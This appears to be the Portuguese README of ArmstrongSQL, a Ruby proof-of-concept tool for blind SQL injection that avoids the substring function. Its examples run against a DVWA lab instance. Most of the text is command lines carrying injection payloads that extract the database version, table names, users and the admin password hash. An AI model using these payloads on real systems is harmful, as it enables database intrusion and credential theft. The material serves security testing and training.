 # ArmstrongSQL

O ArmstrongSQL é uma ferramenta que implementa uma prova de conceito de como explorar blind SQL injection sem a utilização da função substring.

Os exemplos citados neste README consideram o exemplo de utilização do ArmstrongSQL contra uma instância do DVWA.

## Versão do banco
./ArmStrongSQL.rb -m "Surname" -s "' and (select @@version) like '%'#"  -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -w

## Tabelas com coluna password
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM information_schema.columns WHERE column_name = 'password' and table_name like '%') > 0#" -r

## Tabela USERS
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM information_schema.columns WHERE table_name like 'USERS%' and column_name like '%') > 0#" -r

## Usuários da tabela USERS
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER like '%') > 0#" -r

## Hash do usuário Admin
 ./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER = 'ADMIN' and password like '%') > 0#"  -d hex

## Salvando a saída para um arquivo
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER like '%') > 0#" -r -o USERS.txt
